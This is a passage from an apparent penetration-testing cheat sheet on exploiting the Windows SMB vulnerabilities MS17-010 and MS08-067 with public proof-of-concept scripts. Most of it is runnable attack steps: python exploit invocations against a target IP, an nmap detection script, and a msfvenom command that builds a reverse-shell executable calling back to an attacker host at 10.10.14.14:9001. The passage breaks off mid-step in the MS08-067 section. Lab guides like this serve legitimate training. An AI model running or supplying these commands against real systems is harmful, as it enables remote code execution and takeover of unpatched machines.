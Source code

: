 * Fourth, trigger the exploit

```bash
#Exploit
python2.7 zzz_exploit.py <IP>

#Exploit on ntsvcs named pipe
python2.7 zzz_exploit.py <IP> ntsvcs
```
{% endtab %}

{% tab title="Exploit - helviojunior" %}
To exploit, we may use the helviojunior [PoC](https://github.com/helviojunior/MS17-010) on GitHub. He forked the worawit repo and added a single `send_and_execute.py`, which is really handy.

* First, we have to edit `USERNAME` and `PASSWORD` at the begening of the `send_and_execute.py` script
* Second, generate a reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```

* Third, trigger the exploit

```bash
#Exploit
python2.7 send_and_execute.py <IP> pwned.exe

#Exploit on ntsvcs named pipe
python2.7 send_and_execute.py <IP> pwned.exe ntsvcs
```
{% endtab %}
{% endtabs %}

#### MS08-067

The MS08-067 vulnerability is a buffer overflow vulnerability in the Windows Server service.The vulnerability could allow remote code execution if an affected system received a specially crafted RPC request. On Microsoft Windows 2000, Windows XP, and Windows Server 2003 systems, an attacker could exploit this vulnerability without authentication to run arbitrary code.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to to detect the presence of the MS08-067 vulnerability.

```bash
sudo nmap -p 445 --script="smb-vuln-ms08-067" <IP>
```
{% endtab %}

{% tab title="Exploit" %}
To exploit, we may use the jivoi [PoC](https://raw.githubusercontent.com/jivoi/pentest/master/exploit\_win/ms08-067.py) on GitHub.

* First, generate a Python shellcode and utilize it to replace the current one in `ms08-067.py`.
